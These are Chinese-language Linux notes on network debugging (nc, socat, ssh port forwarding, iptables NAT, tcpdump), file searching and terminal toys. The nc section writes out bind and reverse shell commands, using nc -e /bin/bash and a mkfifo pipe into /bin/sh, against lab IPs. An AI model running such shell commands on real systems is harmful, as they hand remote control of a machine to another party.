







# liunx 操作系统

## shell脚本编程指南


## 网络调试

### nc工具

#### chat server

nc发起的连接都是单例的，连接断开后，服务端与客户端都会退出。nc的 -l参数可以监听某个端口的数据

```
nc -l 8888
```

在另一台主机上连接即可

```
nc "ip address" 8888
```

两台主机算是建立了一条双向通道，可以互相发送数据，方式为全双工

#### 传输文件

传输文件的原理是输入输出重定向，充当服务器的主机将nc得到的数据重定向到文件中，充当客户端的主机将文件中的内容重定向到标准输入

#### 传输目录

传输目录使用了tar工具与输入输出重定向。tar -f参数指定-表示输出到标准输出，使用管道拼接到nc之前，表示将tar压缩的内容，发送到nc建立的通道中

```
tar -cvf - iptables | nc -l 8888 
nc 192.168.56.102 8888 | tar -xvf - 
```

#### 反弹shell

-e参数可以让nc在接收到连接后执行指定命令

```shell
nc -l 8888 -e "/bin/bash -i" #pc1
nc 192.168.56.102 8888		#pc2
```

这样，在pc2连接到pc1时可以得到一个pc1的shell运行环境，在pc1上执行shell命令

假设服务端nc不支持-e选项，那我们可以使用mkfifo命名管道来处理shell

```shell
mkfifo /tmp/temp_fifo # 在服务端创建命名管道
cat /tmp/temp_fifo | /bin/sh -i 2>&1 | nc -l 8888 > /tmp/temp_fifo 
```

管道数据用于输入输出，当cat遇到fifo文件末尾时会阻塞等待数据，temp_fifo文件中存放了nc接收过来的数据，即客户端发送过来的命令

```shell
nc 192.168.56.102 8888
```

也可以在服务端获取一个客户端的shell，称为反向shell

```shell
nc -l 8888 #pc1
nc 192.168.56.102 8888 -e /bin/bash # pc2
```

### socat网络数据重定向

socat也是用于在两个socket通信端点建立连接的工具，基本用法如下

```
socat [options] <address> <address>
```

在addr1与addr2之间建立数据通道，常用的addr描述方式

-   -,STDIN,STDOUT 表示标准输入输出，可以就用一个横杠代替。
-   /var/log/syslog 打开一个文件作为数据流，可以是任意路径。
-   TCP:: 建立一个 TCP 连接作为数据流，TCP 也可以替换为 UDP 。
-   TCP-LISTEN: 建立 一个 TCP 监听端口，TCP 也可以替换为 UDP。
-   EXEC: 执行一个程序作为数据流。

这些描述方式后面可以附加一些选项

如 fork，reuseaddr，stdin，stdout，ctty 等

#### 应用

读取文件

```shell
socat - filename
```

连接远程端口

```
socat - TCP:192.168.56.101:8888
```

来自标准输入的数据会被发送到该socket，从该socket读取到的数据会被发送到标准输出

监听一个端口

```
socat TCP-LISTEN:8888 -
```

转发tcp

```shell
socat -d -d TCP4-LISTEN:8000,bind=192.168.56.101,reuseaddr,fork TCP4:192.168.56.1:103:8888
#转发udp原理同上
```

做端口转发实验时，一定要具备端口转发条件，基础设施要配置好，防火墙打开对应端口，操作系统打开端口转发的选项，方法是在sysctl.conf中添加参数设置，随后执行sysctl -p

```shell
net.ipv4.ip_forward=1
```

### ssh端口转发

#### 本地端口转发

将本地端口通过ssh连接，映射到远程主机的另一端口，访问本地映射端口，数据会被转发到远程映射端口。用于将远程服务转发到本地

```shell
ssh -L local_hostname:local_port:remote_host:remote_port user@hostname
```

将本地local_hostname的local_port数据通过主机user@hostname转发到remote_host：remote_port

要求remote_host与主机user@hostname可以连通。比如主机A1，A2是本地主机，B1，B2是远程主机

a1<->a2,a1<->b1,b1<->b2。 remote host是相对于user@hostname的remote host。

在a2上访问b2上的服务，通过ssh本地端口转发可以实现，通过a1与b1之间的ssh连接，将远程主机b2的服务映射到本地主机a1，然后在a2上访问a1即可

```shell
ssh -L a1:a1_port:b2:b2_port user@b1    # execute on a1
```

将发往本地8888端口的请求映射到主机49.232.212.180的443端口

```shell
ssh -L 8888:localhost:443 ubuntu@49.232.212.180
```

使用nc在 远程主机监听443端口数据，使用nc连接本地8888端口，可以相互通信

```
#local
root@kali [04:15:24 AM] [~/Desktop] 
-> # nc localhost 8888 
test
lskdfja

# remote
ubuntu@VM-0-15-ubuntu [05:15:33 PM] [~] 
-> % sudo nc -l 443
test
lskdfja
```

实现了将远程主机端口映射到本地的功能


#### 远程端口转发

将远程端口，通过ssh连接，映射到本地某一端口，从而实现其他计算机访问远程服务器的远程端口时，请求会被转发到本地,用于将本地服务映射到远程

```shell
ssh -R remote_server:remote_port:dest_server:dest_port user@hostname
```

remote_server是暴露出去的计算机，dest_server是真正运行服务的计算机，remote_server与hostname相同，使发送到remote——server的请求都被转发到dest_server

sshd配置文件需要允许端口转发


常用的功能是将本地服务映射到远程。比如本地有个web服务，想临时放到公网允许别人访问，此时，remote server主机是我们的远程服务器，user@hostname也是我们的远程服务器，dest server是相对于本地的，运行着真实服务的主机。

比如

```shell
ssh -R 0.0.0.0:3389:localhost:8888 ubuntu@49.232.212.180
```

表示将发送到49.232.212.180 的3389的网络请求，转发到本地的8888端口。同样使用nc测试

> root@kali [04:42:07 AM] [~/Desktop] 
> -> # nc -l -p 8888
> ls

>root@kali [04:42:15 AM] [~] 
>-> # nc 49.232.212.180 3389
>ls

#### 动态端口转发

将本地端口接收到的请求通过ssh发送到远程主机，指定本地端口，并不指定远程端口，收到的请求信息会原封不动的发送到目标主机，由目标主机处理该请求，相当于一个socks代理

```
ssh -D localhost:localport user@hostname
```

### iptables

使用iptables中的SNAT与DNAT做端口转发，假设192.168.56.103:80（S1）运行有httpd服务，在192.168.56.102（G1）上配置端口转发，使发送到102上的请求被转发到103上，在G1上执行

```shell
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.56.103
iptables -t nat -A POSTROUTING -p tcp --dport 80 -j SNAT --to-source 192.168.56.101
```

在192.168.56.101上访问G1

curl 192.168.56.102:80

即可得到响应

### tcpdump

#### 常用参数

-   -A 将每个数据包的ascii打印出来，除去包头，经常用于显示网页数据
-   -c 抓取指定数量的数据包
-   -i 指定监听在哪一个网络设备
-   -e打印链路层信息
-   -r -w 分别用于从文件中读取数据包与将数据包写入文件
-   -l 行缓冲
-   -n 显示ip地址，而不是主机名
-   -s 数据包截断
-   -v -vv -vvv verbose mode
-   -X与-XX用来查看数据包ascii与hex内容

#### 过滤语句

基本组成

协议 + 方向 + 类型

类型主要有host，port，net，方向dst，src，协议 ether,ip,ip6,arp,rarp,tcp,udp

可以通过逻辑运算对条件进行组合

`or || and && not !`

#### 实例

抓取带有syn标记的数据包

```shell
sudo tcpdump -i eth0 'host 172.16.0.11 and host google.com and tcp[tcpflags]&tcp-syn!=0' -c 3 -nn
```

tcp数据包有如下标识字段

`tcp-fin, tcp-syn, tcp-rst, tcp-push, tcp-ack, tcp-urg`

抓取所有经过 eth1，目的地址是 192.168.1.254 或 192.168.1.200 端口是 80 的 TCP 数据

```
tcpdump -i eth1 '((tcp) and (port 80) and ((dst host 192.168.1.254) or (dst host 192.168.1.200)))'
```

抓取所有经过 eth1，目标 MAC 地址是 00:01:02:03:04:05 的 ICMP 数据

```
tcpdump -i eth1 '((icmp) and ((ether dst host 00:01:02:03:04:05)))'
```

抓取所有经过 eth1，目的网络是 192.168，但目的主机不是 192.168.1.200 的 TCP 数据

```
tcpdump -i eth1 '((tcp) and ((dst net 192.168) and (not dst host 192.168.1.200)))'
```

抓ack syn

```
tcpdump -i eth1 'tcp[tcpflags] & tcp-syn != 0 and tcp[tcpflags] & tcp-ack != 0'
```

## 文本处理

### find

文件查找


pathname指定了查找路径，后面中括号的内容指定了找到文件以后进行的操作，默认在当前文件夹下查找，并将找到的结果打印至标准输出

#### 动作

-print 打印至标准输出
 -exec 找到文件以后执行命令 find /home -type f -exec ls -l {} \;
 -ok同-exec，但是执行每条命令时都会让用户选择是否执行
 -execdir 

```
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print  -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit   -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;   -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ; 
```

#### 选项

- -name 按照文件名称查找文件
-  -perm 按照文件权限查找
-  -prune 不在当前指定的目录中查找
-  -user 按照文件属主查找
- -group 按照文件属组查找
-  -mtime -n or +n 文件更改时间
-  -newer file1 ！ file2 比文件file1新但是比文件file2旧
-  -type b|d|c|p|l|f 按文件类型
-  -follow 跟踪符号链接

#### 实例

查找普通文件并打印（默认）

```
find . -type f -execdir ls -l {} \;# 注意{}后面的空格不能忽略
```

按时间查找

- -atime +n/-n 存取时间+n代表n天以前，-n代表n天以内
-  -ctime
-  -mtime
-  -cmin
-  -amin
-  -mmin

```shell
 find /var/log/ -ctime +5 # 5日之前修改过的
 find /var/log/ -ctime -5 # 5日之内修改过的
```

查找etc目录下文件名包含passwd的文件并挑选出指定用户

```shell
sudo find /etc/ -name "pass*" -execdir grep "xiaozhi" {} \;
```

按权限查找当前目录下对任何人可执行的文件并打印详细信息

```shell
 find . -perm --5 -execdir ls -l {} \;
```

大小为0

```shell
find /var/log -size 0
```

用户组

```shell
find /var/log -group root
```

### xargs

xargs可以处理输入数据，经常用于命令行参数的格式化，可以将多行数据变为单行，单行数据变为多行，处理数据以供命令执行

-n 3将单行数据变为多行数据，且每行三个
 -I “string” 使用string替换每个输入数据，string可供后来命令使用
 -d “X” 重定义定界符 “X”


## 有趣的工具

#### cmatrix矩阵

```
cmatrix
```



#### xeyes眼睛

```
xeyes
```



#### toilet艺术字

```
toilet
```



#### oneko追随指针的小猫

```
oneko
```



#### sl跑火车

```
sl
```



#### cowsay,lolcat,fortune 

cowsay可以指定图案显示指定文字


还可以指定动物




fortune显示名人名言,lolcat可以使输出结果变为彩色

```
fortune | cowsay -f dragon | lolcat
```


#### pv使输出模拟打字机



## bugs

### wine运行时指定中文环境

```shell
env LANG=zh_CN.utf8 wine
```

pyqt5中文输入

```
cp /usr/lib/x86_64-linux-gnu/qt5/plugins/platforminputcontexts/libfcitxplatforminputcontextplugin.so ~/.pyenv/versions/QT5_envs/lib/python3.7/site-packages/PyQt5/Qt/plugins/platforminputcontexts/
```

查看nvidia显卡驱动版本

```
sudo dpkg --list | grep nvidia-*	
```

查看cuda版本

```
nvcc --version
```

http://ai.stanford.edu/~amaas/data/sentiment/aclImdb_v1.tar.gz